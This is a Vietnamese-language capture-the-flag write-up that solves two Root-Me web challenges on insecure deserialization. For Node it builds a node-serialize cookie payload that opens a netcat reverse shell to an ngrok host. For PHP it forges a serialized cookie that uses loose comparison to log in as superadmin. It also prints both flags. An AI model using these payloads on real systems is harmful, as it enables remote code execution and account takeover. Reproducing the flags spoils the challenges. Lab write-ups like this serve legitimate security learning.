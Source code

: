 ![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/5f0f5b70-fa16-4ad9-bb4f-65b557dffda9)![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/2b24af02-6011-4542-88c3-305abc82add6)# Node - Serialize

- Link Challenge: http://challenge01.root-me.org:59067/

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a5eeb11d-8eec-4439-ab55-307ac0cd3227)

- Vừa vào thì mình nhận được một trang login.
- Dùng Burp Suite kiểm tra resquest thì mình nhận thấy rằng server sẽ response về cho mình một Cookies có giá trị là ``profile`` và redirect mình về lại ``\``

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/a230517e-3f6f-4e1c-bf06-474d4fcfdda4)

- Tiếp tục xem resquest tiếp theo thì lúc này server đã tự gửi một GET resqeust với Cookies là giá trị đã set cho mình lúc nãy.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/17f08edd-18ae-4733-999b-2b65502298f7)

- Có vẻ như cookies đã bị serialize và theo tên bài thì trang web này được code bằng Node.

 ![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/b8e02089-55fb-4727-9737-0428dc56be83)

- Sau một hồi research mình tìm được một bài viết khá hay về [Node.js Deserialization Attack ](https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/)
- Dựa theo blog, bây giờ mình tiến hành dựng một port tcp bằng ngrok.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/2355dfa4-00a1-46cb-a12f-02e492186dac)

- Đoạn code generartor payload sẽ có dạng như sau:

```  nodejs
let y = {
    rce: function () {
        require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 12502 >/tmp/f', function (error, stdout, stderr) { console.log(stdout); });
    },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/5e173b84-8940-4cd3-b080-b68ab9bf0a07)

- Bây giờ mình sẽ tiến hành chèn thêm đoạn payload này vào cookies để có thể reverse shell

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/d675eb43-7110-4f38-85f2-8fbe2458cc8c)

- Sau khi có shell, mình chỉ cần lấy flag.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/938e0984-1651-457e-ba0c-566d64a454d8)

- Flag: ```Y3pS3r0d3c0mp4nY1sB4d!```
# PHP - Serialization
- Link challenge: http://challenge01.root-me.org/web-serveur/ch28/

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/c708670a-88dc-4b09-91e5-eff5b61b64f8)

- Chúng ta có được một form login và một source code.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/f763dd21-a3e8-4042-9782-65c3a6d3e64a)

- Để ý src, thì mình phát hiện được 1 điều kiện khi login đó là autologin bằng cookies.
- Khi người dùng tick vào ô autologin lúc gửi Request, thì server sẽ tự serialize data và gán nó vào trong cookies.
- Điểm đáng chú ý của hàm này đó là mỗi khi server unserialize cookies thì không có bước verify xem cookies có bị thay đổi hay không.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/c388f88b-b3b6-48ae-b220-eaf4f449ab4a)

- Và điều kiện để chúng ta có được flag là login vào được với quyền của superadmin.
- Ý tưởng của mình là chỉ cần login vào với tài khoản ```guest\guest``` để có được cookie của autologin và chỉnh sửa nó để bypass bước xác thực của server.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/d32a4ee6-6704-4fad-afe1-c1d2c5236c61)

- Cookies chứa giá trị của autologin có dạng như sau.

```a:2:{s:5:"login";s:5:"guest";s:8:"password";s:64:"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec";}```

- Việc của mình bây giờ chỉ cần thay đổi nó thành ```superadmin``` và password là ```b:1``` ( bởi gì server kiểm tra password toán tử == ).

```a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}```

- Khi login bằng cookies của superadmin thì cuhngs ta đã có flag.

![image](https://github.com/TooBunReal/rootme-writeup/assets/89735990/af93d14a-f267-4fb7-99e3-b1665fbdc58d)

- Flag: ```NoUserInputInPHPSerialization!```
